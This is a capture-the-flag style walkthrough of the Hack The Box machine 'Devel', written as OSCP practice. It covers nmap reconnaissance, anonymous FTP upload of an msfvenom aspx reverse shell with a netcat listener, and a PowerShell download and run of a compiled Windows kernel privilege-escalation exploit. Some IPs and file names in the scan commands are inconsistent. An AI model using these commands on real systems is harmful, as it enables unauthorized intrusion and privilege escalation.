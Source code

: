 Devel
# Overview
The machine I'm going to attempt to exploit is a Windows machine called "Devel". This is one of the OSCP like boxes that has been listed by @TJ_Null on Twitter. Since I'm preparing for my OSCP I'm going to exploit this box without metasploit.

# Reconnaissance 

The IP that is associated with the machine is 10.10.10.5. I'm going to start by running a few nmap scans to determine if I can find a point of entry. 
### ****Scanning****

- **Initial Scan**
	- Command 
	`sudo nmap -sC -sV -T4 -O -oA devel 10.10.10.5`
		- `-sC`: run default nmap scripts
		- `-T4`: Set timing template (higher is faster)
		- `-O`: Detect OS
		- `sV`: detect service version
		- `-oA`: Output all files formats to name "lame"

Running the initial nmap scan showed 9 open ports on the target machine

- **Port 21**: Microsoft ftpd
- **Port 80**: Microsoft IIS httpd 7.5

![initial_scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **Full Scan**
Now I'm going to run a scan on all ports to see if there are any other entry points.

	- Command 
	`sudo nmap -sC -sV -T4 -O -p- -oA devel_full 10.10.10.40`
		-	`-p-`: Scan all ports
		

We get the same results from the full scan.

![full scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **UDP Scan**
Now to be extra thorough I'm going to run a UDP scan.

	- Command
	`sudo nmap -sU -T4 -O -p- -oA devel_udp 10.10.10.40`
		- `-sU`: UDP scan

The UDP scan was still running after 5 hours. If we don't gain a foothold in the proceeding steps we will attempt the UDP scan again.

--------------------------------------------
--------------------------------------------
# Enumeration

We saw in our initial scan that the server allows annonymous login on the FTP server. Meaning that anyone can login.

`ftp 10.10.10.5`

![ftp login](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/ftp_login.png)

We can even list the files in the current directory.

![ftp directories](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/ftp_directories.png)

Let's see if we can visit these files on the browser

![browser](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/browser.png)

This leads me to believe that the ftp server is uploading files to the root directory of the web server.

I created a test file to see if I was able to upload it to the server and it was succesful.

![test file](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/test_file.png)

We should be able to get a shell with this knowledge.

# Exploitation

We need to generate a payload in order to upload it to the FTP server and execute it in the browser to get a reverse shell. Since this is a windows web server we're going to need to generate our payload as a .aspx file.

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o devel_shell.aspx `

Now lets put the shell on the server

![put shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/put_shell.png)

Now lets set up out listener

`nc -lvnp 4444`

Now we can execute the file in the browser. We got our shell!

![reverse shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/reverse_shell.png)

# Priviledge Escalation

We have our shell as the user "iis apppool\web". We don't have much priviledge with this account so we're going to need to elevate our priviledges.

![user shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/user_shell.png)

Let's get some more information about this device.

`systeminfo`

The info shows that this machine is on an old version of windows and it have not been updated

Let's Google for exploits on the windows version "Microsoft Windows 7 build 7600"

We found one on exploit db so we should be able to find it in searchploit by searching the vulnerability name.

![priv esc](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/priv_esc.png)

`searchsploit -m 40564`

Now that we have it copied to our directory we need to compile it with the instructions below

![compile instructions](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/compile_instructions.png)

`sudo apt install mingw-w64 `

Now we can compile it using the command listed in the exploit.

`i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`

Now lets set up a quick http server to transfer the file to the machine 

`python -m SimpleHTTPServer 8080`

Since there is no netcat installed on the machine, let use some powershell to grab the file.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

After running that we finally hve the exe file on our target machine 

![exe ontarget](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/exe_ontarget.png)

After executing the file we have admin priviledges!

![admin priv](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/admin_priv.png)

Navigating to babis desktop directory we got the user flag

![user flag](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/user_flag.png)

Navigating to the administrators desktop we got the root directory.

![root flag](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/root_flag.png)
